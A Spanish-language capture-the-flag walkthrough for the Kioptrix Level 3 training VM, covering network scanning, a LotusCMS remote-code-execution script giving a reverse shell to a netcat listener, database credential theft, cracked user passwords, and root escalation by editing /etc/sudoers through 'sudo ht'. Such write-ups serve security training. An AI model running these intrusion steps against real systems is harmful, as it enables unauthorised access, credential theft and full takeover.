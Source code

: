 # Kioptrix Level 3 Walkthrough

# Kioptrix Level 3

## Resolución de la Maquina

### Escaneo y Análisis de Vulnerabilidades

Empezamos con un escaneo a nuestra red local con el comando arp para obtener la ip de nuestra maquina objetivo.

```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Una vez obtenida la ip procedemos a realizar un escaneo con nmap.

```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

Tras realizar el escaneo con nmap vemos que tiene el puerto 80 abierto con un servicio http por lo que vamos a ver que contiene utilizando nuestro buscador en este caso Firefox y vemos la siguiente web.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

En la descripcion de la maquina nos dice que añadamos el dominio [kioptrix3.com](http://kioptrix3.com) a nuestro fichero /etc/hosts para poder ver bien la web por lo que lo abrimos y añadimos lo siguiente:

```bash
192.168.66.161  kioptrix3.com
```

### Explotación

Tras husmear por la pagina vemos que la web esta hecha con LotusCMS

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

Por lo que pasamos a buscar en Google si existe algún exploit para este CMS y encontramos el siguiente:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

lo clonamos a nuestra maquina y ejecutamos

```bash
./lotusRCE.sh kioptrix3.com /

#Introducimos nuestra ip
192.168.66.152 
#El puerto
4444
#En otra terminal iniciamos netcat
nc -nlvp 4444
#selecionamos la opcion 1
1
#obtenemos una shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

Realizamos un tratamiento de la tty para trabajar mas cómodos y poder hacer Ctrl+C

```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

Tras enumerar un rato encontramos el archivo gconfig.php en /home/www/kioptrix3.com/gallery el cual contiene unas credenciales a la base de datos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

Nos logeamos en mysql:

```bash
mysql -uroot -pfuckeyou
```

Y obtenemos las credenciales del usuario admin pero tras realizar unos intentos no nos sirve para cambiar de usuario.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

Pasamos a logearnos en phpmyadmin con las credenciales obtenidas anteriormente.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

y localizamos los hashes de los usuarios de la maquina

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

he utilizado una web online para crackear estos hashes obteniendo la contraseña en texto claro

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

una vez obtenida las credenciales pasamos a conectarnos a través de SSH pero obtenemos un error.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

Para solucionarlo escribimos lo siguiente para conectarnos:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Escalada de Privilegios

Si leemos el fichero CompanyPolicy.README nos dice que han instalado un nuevo software para editar, crear y ver archivos y que para ello utilicemos el comando “sudo ht”.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

Con sudo -l vemos que tenemos permisos para ejecutarlo con sudo.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

si lo ejecutamos de primeras nos saltara un error por lo que tenemos que ejecutar lo siguiente:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

y ejecutamos:

```bash
sudo ht
```

Para abrir un fichero debemos de utilizar las teclas ALT+ F y seleccionar el campo open:

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

Vamos a editar el fichero /etc/sudoers para poder lanzar una Shell como root y así escalar privilegios.

Para ello escribimos /etc/sudoers y damos al enter.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

Añadimos el siguiente comando seguido de los comandos existentes al usuario loneferret para que pueda ejecutarlo con sudo.

```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Pulsamos ALT + F  guardamos y salimos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

Obtenemos una Shell como root:

```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Un saludo y Feliz Hacking :)


